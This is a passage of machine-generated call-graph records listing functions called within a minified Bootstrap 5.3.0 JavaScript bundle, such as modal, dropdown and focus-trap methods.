"static/js/bootstrap-5.3.0.bundle.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "onFirstUpdate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "not"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "not"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "prev"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "findOne"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_detectNavbar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "toggle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_isShown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "show"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "show"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_isShown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "closest"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "focus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_isShown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_completeHide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_detectNavbar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_completeHide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "removeDataAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getConfig"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_createPopper"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getPopperConfig"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_isShown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getPlacement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getComputedStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getPropertyValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "trim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_detectNavbar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "closest"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getOffset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getPopperConfig"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getPlacement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getOffset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "setDataAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_selectMenuItem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "not"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "focus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "jQueryInterface"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getOrCreateInstance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "clearMenus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getInstance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "composedPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "includes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_completeHide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "dataApiKeydownHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "includes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "matches"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "prev"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "findOne"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getOrCreateInstance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "stopPropagation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "show"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_selectMenuItem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_isShown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "stopPropagation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "focus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getOrCreateInstance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "toggle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getConfig"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "show"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_append"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_emulateAnimation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_emulateAnimation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_configAfterMerge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_append"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "append"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_emulateAnimation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getConfig"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "activate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "focus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "deactivate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_handleFocusin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "focusableChildren"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "focus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "focus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "focus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_handleKeydown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_disableOverFlow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_setElementAttributes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_setElementAttributes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_setElementAttributes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_resetElementAttributes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_resetElementAttributes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_resetElementAttributes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_resetElementAttributes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "isOverflowing"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_disableOverFlow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_saveInitialAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_setElementAttributes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_applyManipulationCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_saveInitialAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getComputedStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getPropertyValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "setProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_saveInitialAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getPropertyValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "setDataAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_resetElementAttributes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_applyManipulationCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "removeDataAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "setProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "removeProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_applyManipulationCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "findOne"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_initializeBackDrop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_initializeFocusTrap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_addEventListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "toggle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "show"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "show"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_adjustDialog"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "show"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_showElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "deactivate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_queueCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_hideModal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_isAnimated"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "deactivate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "handleUpdate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_adjustDialog"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_initializeBackDrop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_isAnimated"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_initializeFocusTrap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_showElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "append"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "removeAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "findOne"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_queueCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "activate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_isAnimated"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_addEventListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_triggerBackdropTransition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_adjustDialog"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_triggerBackdropTransition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_hideModal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "removeAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "removeAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_resetAdjustments"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_isAnimated"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_triggerBackdropTransition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_queueCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_queueCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "focus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_adjustDialog"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_resetAdjustments"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "jQueryInterface"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getOrCreateInstance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getElementFromSelector"}, 